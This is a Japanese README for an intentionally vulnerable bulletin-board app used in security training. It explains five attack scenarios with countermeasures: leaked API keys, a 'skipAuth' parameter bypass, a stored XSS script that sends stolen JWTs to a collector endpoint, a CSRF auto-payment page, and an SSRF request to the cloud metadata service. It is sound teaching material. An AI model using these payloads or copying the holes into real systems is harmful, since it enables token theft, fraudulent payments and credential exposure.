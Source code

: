 # セキュリティ研修用掲示板アプリの脆弱性とその対策

今回フロントエンドセキュリティの脅威や手法を楽しく学ぶ J（脆弱性）- 1 グランプリで使用するアプリケーションです。
脆弱性モリモリ掲示板アプリ security-training-board は意図的に様々なセキュリティ脆弱性を持たせています。

以下に各シナリオにおける攻撃方法と対策をまとめています。

## シナリオ1: APIキー漏洩

### 脆弱性

- クライアント側の環境変数（`NEXT_PUBLIC_`接頭辞を持つもの）がブラウザのJavaScriptで漏洩している
- レイアウトファイル（`layout.tsx`）での意図的な露出

### 攻撃手順

1. ブラウザの開発者ツールを開く
2. コンソールタブを確認

### 対策

- 機密情報はクライアント側で扱わない
- サーバーサイドでのみAPIキーを使用
- 環境変数の接頭辞に`NEXT_PUBLIC_`を使用しない
- 必要な場合は認証されたAPIを経由して安全に情報を取得

## シナリオ2: APIサーバー側における未バリデーション

### 脆弱性

- `/api/premium`エンドポイントがURLパラメータ（`skipAuth=true`）によってバリデーションをバイパス可能
- メンバーシップレベルの確認が不十分

### 攻撃手順

1. プレミアム機能のAPIエンドポイントを発見: `/api/premium`
2. 認証をバイパスするためのパラメータを追加: `/api/premium?skipAuth=true`
3. 無料ユーザーでもプレミアムコンテンツにアクセス可能

### 対策

- サーバー側でのユーザー認証と権限チェックを徹底
- URLパラメータによるセキュリティバイパスを許可しない
- 適切なミドルウェアでリクエストの検証を行う

## シナリオ3: XSS（クロスサイトスクリプティング）

### 脆弱性

- 投稿内容のサニタイズが行われていない
- `dangerouslySetInnerHTML`の使用
- JWTトークンが`SameSite=None`でローカルストレージに保存

### 攻撃手順

1. 以下のようなJavaScriptコードを投稿する:
   ```html
   <script>
     // ユーザーのトークンを盗む
     const token = localStorage.getItem("token");
     // 攻撃者のサーバーに送信
     fetch("http://localhost:3000/api/stolen-tokens", {
       method: "POST",
       headers: { "Content-Type": "application/json" },
       body: JSON.stringify({ token }),
     });
   </script>
   ```
2. 他のユーザーが投稿を閲覧すると、スクリプトが実行されトークンが盗まれる
3. 盗まれたトークンで攻撃者がユーザーになりすまし可能

### 対策

- 入力値のサニタイズ（HTMLタグのエスケープ）
- `dangerouslySetInnerHTML`を使用しない
- Content Security Policy (CSP) の設定
- ローカルストレージに機密情報を保存しない

## シナリオ4: CSRF（クロスサイトリクエストフォージェリ）

こちら別サイトを擬似的に用意。（WIP）

### 脆弱性

- 決済APIにCSRF保護がない
- Originヘッダーやリファラーのチェックがない
- URLパラメータで自動決済が可能（`/payment?autoUpgrade=true&level=vip`）

### 攻撃手順

1. 悪意のあるWebサイトを作成:
   ```html
   <button id="freeGift">無料ギフトをゲット！</button>
   <script>
     document.getElementById("freeGift").addEventListener("click", function () {
       window.location.href =
         "http://localhost:3000/payment?autoUpgrade=true&level=vip";
     });
   </script>
   ```
2. ユーザーがこのボタンをクリックすると、自動的に決済ページに遷移し処理が実行
3. ユーザーの意図しない決済が完了

### 対策

- CSRFトークンの実装
- 重要な操作前に再認証を要求
- SameSite Cookieの設定
- Referer/Originヘッダーの検証
- セッション固有のトークンを使用

## シナリオ5: SSRF（サーバーサイドリクエストフォージェリ）

### 脆弱性

- `/api/cloud-info`エンドポイントが任意のURLにリクエストを送信可能
- ホストヘッダインジェクションに脆弱

### 攻撃手順

1. SSRFに脆弱なエンドポイントを発見: `/api/cloud-info`
2. 以下のようなリクエストを送信:
   ```
   GET /api/cloud-info?url=http://169.254.169.254/latest/api/token HTTP/1.1
   Host: attacker.example.com
   ```
3. パブリッククラウドのメタデータサービスにアクセスしトークンを取得
